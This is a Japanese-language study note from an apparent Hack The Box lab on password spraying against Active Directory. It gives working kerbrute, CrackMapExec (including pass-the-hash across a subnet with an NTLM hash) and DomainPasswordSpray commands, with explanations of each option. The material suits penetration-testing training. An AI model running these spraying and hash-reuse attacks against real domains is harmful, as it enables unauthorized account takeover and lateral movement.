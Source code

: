Kerbrute
- パスワード攻撃
```shell-session
snowyowl644@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
オプション

|                 |                                                                                                                         |
| --------------- | ----------------------------------------------------------------------------------------------------------------------- |
| valid_users.txt | テスト対象のユーザー名リスト                                                                                                          |
| Welcome1        | テストするパスワード（全ユーザーにこのパスワードをスプレー）                                                                                          |
| passwordspray   | これは kerbrute の**モード**（サブコマンド）です。ユーザー名のリストに対して1つのパスワードを使ってログインを試みる<br>→ このモードを指定することで、Kerberos 認証を使って “横一列” にパスワードスプレーする |
CrackMapExec
- パスワードスプレー攻撃
```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
- 単一ユーザーでのログイン
```shell-session
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

##### 管理者パスワードの再利用
- 内部パスワードスプレーは、ドメインユーザーアカウントに対してだけでなく、ローカル管理者アカウント（またはその他の特権を持つローカルアカウント）にも実行できる
- ローカル管理者アカウントの NTLMハッシュ や 平文パスワード を取得できれば、それを使ってネットワーク内の複数のホストに対して認証を試すことが可能
- ローカル管理者アカウントのパスワード再利用は、企業内で**ゴールドイメージ（標準化されたOSイメージ）を使って展開を自動化する際に、複数ホストに同じパスワードを設定するのが簡単なため、非常によくある
以下のコマンドで試す
```shell-session
 sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

#### Windows
- [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)を使って、パスワードスプレーを行うことができる
- ドメインに認証されているとき
	- **パスワードスプレーするパスワードだけ指定すればいい**
	- このツールは自動的に Active Directory からユーザーリストを生成してパスワードスプレー攻撃を実行
	- ドメインのパスワードポリシーを照会し、さらに ロックアウトまで1回の試行しか残されていないユーザーアカウントを除外してくれる
- WindowsVMからのテストや、すでにマシンを掌握できている時の横展開に使える
- ホストはドメインに参加しているため、`-UserList`フラグをスキップして、ツールにリストを生成させる
- `Password`フラグと単一のパスワードを提供し、`-OutFile`フラグを使用して、後で使用するために出力

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

| **オプション**                     | **説明**                                       |
| ----------------------------- | -------------------------------------------- |
| -Password Welcome1            | 試行するパスワード。ここでは「Welcome1」を使用                  |
| -OutFile spray_success        | 成功したログイン情報を保存するファイル名（ここでは spray_success）     |
| -ErrorAction SilentlyContinue | エラーを無視して処理を続行（途中で止まらず、静かに進行）                 |
